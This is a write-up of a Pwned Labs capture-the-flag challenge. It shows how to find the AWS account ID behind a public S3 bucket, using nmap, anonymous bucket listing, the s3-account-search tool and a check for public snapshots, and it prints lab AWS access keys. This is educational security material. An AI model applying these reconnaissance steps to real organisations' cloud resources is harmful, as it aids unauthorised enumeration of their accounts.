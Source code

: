 ```yaml
---
title: "Pwned Labs - Identify the AWS Account ID from a Public S3 Bucket"
date: 2024-02-14
categories: [AWS, Cloud, Security]
tags: [AWS, Security, S3, PwnedLabs]
---
```

![Intro](/images/PwnedLabs/AccountID/1.png)

Hello everyone! Today we will be solving another challenge. In this challenge, we need to [Identify the AWS Account ID from a Public S3 Bucket](https://pwnedlabs.io/labs/identify-the-aws-account-id-from-a-public-s3-bucket). This challenge's name reminded of an old [research](https://cloudar.be/awsblog/finding-the-account-id-of-any-public-s3-bucket/) that I read which introduced this technique and the author also released a [tool](https://github.com/WeAreCloudar/s3-account-search) to exploit the same.\
As we start the challenge, we are given an IP address and AWS Credentials as an entry point. So we shall start with the IP address. A basic nmap scan reveals a HTTP service on Port 80.

```
$ nmap 54.204.171.32                                                                                   
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-13 01:27 IST                                                         
Nmap scan report for ec2-54-204-171-32.compute-1.amazonaws.com (54.204.171.32)                                          
Host is up (0.30s latency).                                                                                             
Not shown: 999 filtered ports                                                                                           
PORT   STATE SERVICE                                                                                                    
80/tcp open  http
```

![Intro](/images/PwnedLabs/AccountID/2.png)

The website doesn't have much, so let's check out the source code to find something interesting.

![Intro](/images/PwnedLabs/AccountID/3.png)

We can observe that the website is hosted on S3 buckets, and the bucket name is `mega-big-tech`. While trying to enumerate the s3 bucket, we can notice that it is a public bucket. Since we are able to `List` the bucket and `Get` the objects inside the bucket, we can assume that the S3 bucket has a policy attached which allow `GetObject` and `ListBucket` operations.

```
$ aws s3 ls s3://mega-big-tech --no-sign-request
                           PRE images/
```
We can assume that the policy would look something like this.

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Get",
            "Effect": "Allow",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::mega-big-tech/*"
        },
        {
            "Sid": "List",
            "Effect": "Allow",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::mega-big-tech"
        }
    ]
}
```
Also, a basic curl request reveals that the region the s3 bucket hosted in is `us-east-1`.

```bash
$ curl https://mega-big-tech.s3.amazonaws.com

StatusDescription : OK
Content           : <?xml version="1.0" encoding="UTF-8"?>
                    <ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>mega-big-tech</Name><Prefix
                    ></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated...
RawContent        : HTTP/1.1 200 OK
                    x-amz-id-2: Cj1CdpHGHgL4fWMd87YXWiajDA6t++izqKXbdZ1YT9opEJK7E75NNiLb7+XYxSdZND+h8imdcHhPNDyjf/hLpGa
                    BcvtUdYrIJlRXXCIf/3s=
                    x-amz-request-id: 5ZJ8K2EYX1SWJEYQ
                    x-amz-bucket-region: us-east-1
Headers           : {[x-amz-id-2, Cj1CdpHGHgL4fWMd87YXWiajDA6t++izqKXbdZ1YT9opEJK7E75NNiLb7+XYxSdZND+h8imdcHhPNDyjf/hLp
                    GaBcvtUdYrIJlRXXCIf/3s=], [x-amz-request-id, 5ZJ8K2EYX1SWJEYQ], [x-amz-bucket-region, us-east-1],
                    [Transfer-Encoding, chunked]...}
```
Now, let's `configure` the AWS credentials provided and run `aws sts get-caller-identity`. We can observe the role assigned is called `s3user`. Also, notice that the `s3user` does not have access to List the `mega-big-tech` bucket.

```bash
$ aws configure --profile s3
AWS Access Key ID [None]: AKIAWHEOTHRFW4CEP7HK
AWS Secret Access Key [None]: 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

$ aws sts get-caller-identity --profile s3
{
    "UserId": "AIDAWHEOTHRF62U7I6AWZ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/s3user"
}

$ aws s3 ls s3://mega-big-tech --profile s3

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```
Now, we will install the [tool mentioned in the research](https://github.com/WeAreCloudar/s3-account-search) by Ben with `pip install s3-account-search`. I wanted to check something so I created my owm Role with appropriate permissions and assumed the same but you guys can use the role `arn:aws:iam::427648302155:role/LeakyBucket`. 

```bash
$ s3-account-search arn:aws:iam::9..........2:role/RoleToAssume mega-big-tech
Starting search (this can take a while)
found: 1
found: 10
found: 107
found: 1075
found: 10751
found: 107513
found: 1075135
found: 10751350
found: 107513503
found: 1075135037
found: 107513503799
```
The identified `accountID` is `107513503799` which is also the flag for this challenge.

## What else can be done with the `Account ID`?

- Login into your AWS Console, select the region as `us-east-1`, Go to the `EC2` service, then click on the `Public Snapshots` tab, and select `Owner = 107513503799`, observe that there is a [public snapshot available](https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#Snapshots:visibility=public;v=3;ownerId=107513503799).

![Intro](/images/PwnedLabs/AccountID/4.png)

- You can also use a tool named [quiet-riot](https://github.com/righteousgambit/quiet-riot) for such cases.
- [Here](https://github.com/SummitRoute/aws_exposable_resources) is a list of AWS Exposable resources which you can check. 